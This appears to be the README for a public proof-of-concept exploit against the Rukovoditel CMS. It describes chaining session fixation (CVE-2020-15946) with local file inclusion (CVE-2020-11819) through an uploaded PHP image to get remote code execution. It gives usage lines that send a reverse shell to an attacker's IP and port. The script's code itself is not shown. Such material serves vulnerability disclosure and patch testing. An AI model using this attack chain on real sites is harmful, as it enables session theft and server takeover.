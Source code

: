 # PoC-RCE-Rukovoditel
Proof of concept for CVE-2020-11819 and CVE-2020-15946

# Description:
This exploit has two modes of execution, using the session fixation vulnerability (CVE-2020-15946) or using the access credentials of any account under any profile. 
With the --type L option, this script will create a malicious link, if the link is accessed in a browser by the victim, an arbitrary session identifier will be set that will be used to steal their session after uploading an image with PHP content on their photo profile, and then use local file include (CVE-2020-11819) to get a nice reverse shell or, with the options --type C -u <username> -p <password> you can provide credentials, load the image with PHP content and use local file inclusion (CVE-2020-11819) to achieve the execution of code. 

Protip: remember to check if the registration module is enabled ;)

# Usage
exploit.py -t <target> -a L --ip attacker IP --port attacker port [options]
exploit.py -t <target> -a C -u <username> -p <password> --ip attacker IP --port attacker port [options]

Post-authenticate RCE for rukovoditel, script version 1.0

optional arguments:  
-h, --help            show this help message and exit  
-t URL, --target URL  URL/Full path to CMS Rukovoditel http://url/path/to/cms/  
-u USER, --user USER  Username for authentication  
-p PASSWORD, --password PASSWORD Password for authentication  
-a TYPE, --type TYPE  Use -a L to generate the link and steal the session or use -a C if you have access credentials to the web application  
--ip IP_ATTACKER      IP attacker for reverse shell!  
--port PORT_ATTACKER  Port for reverse shell connection  
--proxy PROXY         Setup http proxy for debbugin http://127.0.0.1:8080  
